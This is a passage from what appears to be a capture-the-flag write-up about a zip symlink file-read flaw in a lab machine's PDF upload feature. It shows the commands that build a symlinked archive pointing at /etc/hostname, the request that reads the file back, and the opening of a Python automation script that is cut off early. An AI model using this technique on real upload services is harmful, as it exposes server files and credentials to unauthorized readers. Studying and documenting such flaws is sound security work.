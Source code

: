 ### Zip symlink file-read vulnerability

Upon successful upload of a valid zip file that met the specified condition, the system automatically extracts the contents of the archive. This part interests me, as it potentially introduces a compelling point of vulnerability. The prospect of a staff member subsequently interacting with the extracted PDF makes it even more interesting. The page also returns a link to view to extracted PDF file.

The very first vulnerability that comes to mind when considering automatic archive extraction is the [zip symlink attack](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload). In essence, this involves adding a symlink to another file on the system within the archive. By accessing the decompressed file, one can potentially view the contents of the linked file.

Given that the uploaded zip requires a PDF file, creating a soft symlink from `/etc/hostname` to `file.pdf` suing `ln`. Moreover, during the compression of the file, the preservation of the symlink can be ensured by using the `-y` option.

```bash
> ln -s /etc/hostname file.pdf
> zip -y poc.zip file.pdf
  adding: file.pdf (stored 0%)
```

The newly crafted archive can be successfully uploaded, and as a result it returns a link to view the decompressed PDF file.

![Upload-poc](./images/Upload-poc.png "Zip symlink exploit PoC")

As anticipated, because `file.pdf` points to `/etc/hostname`, querying the file using the provided link reveals the contents of `/etc/hostname`.

```bash
> http -pb http://10.129.66.225/uploads/6d34d4685c1618ff320f6679d158c477/file.pdf
zipping
```

To streamline the process, I wrote a Python script that automates the creation of a symlink, then archiving and uploading, and finally viewing the decompressed file.

```python
#!/usr/bin/env python

import os
import re
import subprocess
import sys

import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

filePath = sys.argv[1]
```